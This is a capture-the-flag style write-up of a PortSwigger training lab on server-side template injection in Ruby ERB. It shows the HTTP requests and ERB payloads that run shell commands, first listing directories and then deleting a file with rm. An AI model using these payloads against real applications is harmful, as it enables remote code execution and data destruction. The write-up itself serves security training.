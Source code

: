 ```yaml
---
title: Basic server-side template injection
description: PortSwigger SSTI Lab
---
```

https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic

This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

## Discovery
Message request
```http
GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/2
Host: 0aa600ba03555e7d807880c7004800c9.web-security-academy.net
Cookie: session=HgIgCSoLadH0Xcr1lViMkgomZaqjzD8Z
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://0aa600ba03555e7d807880c7004800c9.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```

Testing for ERB 
```http
GET /?message=<%25%3d+7*7+%25> HTTP/2
```

Response shows the application is using ERB template. 
```ruby
/usr/lib/ruby/2.7.0/erb.rb:905:in `eval&apos;: (erb):1: syntax error, unexpected &amp; (SyntaxError)
_erbout = +&apos;&apos;; _erbout.&lt;&lt;(( 7*&amp; ).to_s); _erbout
                              ^
	from /usr/lib/ruby/2.7.0/erb.rb:905:in `result&apos;
	from -e:4:in `&lt;main&gt;&apo
```

```ruby
<%= 7 * 7 %>
```

Testing `GET /?message=<%25%3d+7+*+7+%25> HTTP/2` returns `49` which means its vulnerable to SSTI ![](../../../../public/images/PS_SSTI_20250608%20_184642.png)

Testing system commands 
```ruby
<%= `ls /` %>
```

Sending `GET /?message=<%25%3d+`ls+/`+%25> HTTP/2` returns:
![](../../../../public/images/PS_SSTI_20250608%20_185236.png)
## Exploit
Listing carlos directory
```ruby
<%= `ls /home/carlos` %>
```
![](../../../../public/images/PS_SSTI_20250608%20_185459.png)

Deleting `morale.txt`

```ruby
<%= `rm /home/carlos/morale.txt` %>
```

`morale.txt` no longer in `carlos` directory
![](../../../../public/images/PS_SSTI_20250608%20_185704.png)